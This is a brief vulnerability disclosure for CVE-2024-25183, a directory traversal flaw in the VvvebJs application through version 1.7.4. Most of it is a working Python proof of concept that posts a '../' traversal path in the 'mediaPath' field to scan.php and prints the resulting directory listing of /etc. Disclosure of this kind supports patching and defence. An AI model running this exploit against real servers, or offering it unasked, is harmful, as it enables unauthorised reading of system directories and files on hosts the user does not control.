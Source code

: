 # CVE-2024-25183
The VvvebJs application is vulnerable to Directory Traversal attacks by reading directories arbitrarily.

Name Affected product: VvvebJs

Version affected: <= 1.7.4

Problem: Directory Traversal

Proof of concept:
```py
import requests

url = "http://ip:port/scan.php"
data = {
    "mediaPath":"../../../../../../../../../../../../../etc"
}

resp = requests.post(url, data)
print(resp.text)
```